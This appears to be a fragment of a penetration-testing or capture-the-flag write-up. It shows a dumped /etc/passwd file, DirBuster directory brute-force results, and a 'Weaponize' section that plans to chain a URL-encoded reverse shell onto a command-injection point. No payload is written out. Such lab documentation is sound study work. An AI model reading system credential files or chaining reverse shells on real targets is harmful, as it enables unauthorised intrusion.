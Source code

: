 root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin avahi:x:106:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin saned:x:107:118::/var/lib/saned:/usr/sbin/nologin colord:x:108:119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin hplip:x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:120:MySQL Server,,,:/nonexistent:/bin/false miguel:x:1000:1000:,,,:/home/miguel:/bin/bash uuidd:x:112:121::/run/uuidd:/usr/sbin/nologin smmta:x:113:122:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin smmsp:x:114:123:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin Debian-exim:x:115:124::/var/spool/exim4:/usr/sbin/nologin

  

###dirbuster

Not much on results

 →  dirbuster                                                                                                                                       13:11:58

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

Starting OWASP DirBuster 1.0-RC1

  

Starting dir/file list based brute forcing

Dir found: / - 200

Dir found: /icons/ - 403

Dir found: /icons/small/ - 403

Dir found: /app/ - 403

Dir found: /javascript/ - 403

Dir found: /backup/ - 403

^C⏎ 

  

#Weaponize

So since I can run commands to check out things then I'll try to chain a command afterwards via a reverse shell

Will send through a URL so it'll need top be URL encoded
